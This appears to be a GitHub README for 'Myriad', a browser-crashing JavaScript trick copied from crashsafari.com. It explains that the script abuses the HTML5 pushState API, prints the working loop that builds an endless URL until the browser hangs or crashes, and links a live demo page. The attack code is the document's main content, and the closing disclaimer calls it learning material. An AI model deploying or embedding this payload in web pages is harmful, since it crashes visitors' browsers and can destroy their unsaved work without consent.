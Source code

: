 # Myriad

Simple JS script that overloads the browser with a huge URL (Where it gets its name)

## Demo

Visit [this](https://fuk.netlify.app) link **ON YOUR OWN RISK**. I am not responsible for any harm due to this page...... warned ya!

## The url

You can see an example of the generated URL in [SAMPLE-URL.md](SAMPLE-URL.md), its huge and this is a result of running it for 200 ms.

## The code

The code is super simple!

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.

Instead of just changing the path from `website.com/pageone` to `website.com/pagetwo` it creates a string of numbers long enough to slow the browser until it won't function, hang, or crash.

```js
var total = "";
for( var i = 0; i < 10000000000000; i++ ) {
total += i.toString();
history.pushState(0,0, total );
}
```

## Need for Myriad

No one is ever gonna need it (To Say Nothing Of The Naughty Ones)

This script is in the mischievous websites like [crashsafari.com](https://crashsafari.com), [crashchrome.com](http://crashchrome.com), etc.

You better don't do so!

Original code taken from [crashsafari.com](http://crashsafari.com)

## Disclaimer

* This piece of code is open and I am not the creator or owner of this script.
* It is only for learning and research purpose.
* I am not responsible for any destruction or harm caused due to this program/code.
